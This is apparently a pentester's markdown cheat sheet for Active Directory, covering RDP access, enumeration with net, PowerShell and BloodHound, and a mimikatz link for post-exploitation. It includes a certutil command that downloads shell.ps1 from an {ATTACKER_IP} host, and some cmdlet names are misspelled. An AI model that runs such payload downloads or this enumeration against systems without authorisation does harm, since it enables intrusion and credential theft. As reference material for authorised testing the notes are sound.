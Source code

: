 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST`


## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


### Enum in CMD

use net to enumerate eg. users, groups and so on:
```
net user ${user} /domain
```

or the password policy for the domain: `net accounts /domain`


Has to be done from a domain-joined machine though, and it does not necessarily show the full output.

### Enum in Powershell

AD-RSAT tooling gives us a lot of options.
Similar to the `net` tool, powershell has cmdlets like `GetADUser`, `Get-ADGroup` or more generically, `GetAD-Object` 
A good flag to use is `-Properties` with these, which takes a comma-separated list, or wildcards `*`


### Enum and much else: PowerSploit
[link here](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)


### Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) with Sharphound can also be used for a graph overview of the domain.
It has the drawback of being quite noisy though.

## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`

